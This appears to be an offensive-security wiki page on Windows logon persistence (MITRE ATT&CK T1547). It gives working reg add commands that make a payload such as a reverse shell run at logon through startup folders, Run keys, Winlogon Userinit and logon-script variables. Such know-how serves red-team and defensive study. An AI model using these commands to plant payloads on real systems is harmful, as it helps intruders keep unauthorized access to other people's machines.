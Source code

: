 ```yaml
---
description: MITRE ATT&CK™ Boot or Logon Autostart Execution - Technique T1547
---
```


# Logon Triggered

## Theory

It's sometime usefull to know how to plant payloads that will get executed when a user logs into the system !

## Practice

{% tabs %}
{% tab title="Startup Folders" %}
We can put executable in each user's folder:

* `C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

If we want to force all users to run a payload while logging in, we can use the folder under:

* `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`
{% endtab %}

{% tab title="Registry" %}
You can also force a user to execute a program on logon via the registry. You can use the following registry entries to specify applications to run at logon:

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`

For example:

```bash
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v PeMalware /t REG_SZ /d "C:\Users\user1\shell.exe"
```

{% hint style="success" %}
Registry entries under `HKCU` will only apply to the current user.\
Registry entries under `HKLM` will apply to everyone.
{% endhint %}
{% endtab %}

{% tab title="WinLogon" %}
Winlogon, the Windows component that loads your user profile right after authentication can be abuse for persistence\
We can edit the `Shell` & `Userinit` keys:

{% hint style="danger" %}
If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. Interestingly, you can append commands separated by a comma, and Winlogon will process them all.
{% endhint %}

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\System32\Userinit.exe, C:\Windows\shell.exe" /f
```
{% endtab %}

{% tab title="Logon Scripts" %}
One of the things userinit.exe does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine.

```bash
reg add "HKCU\Environment" /v UserInitMprLogonScript /d "C:\Windows\shell.exe" /f
```
{% endtab %}
{% endtabs %}
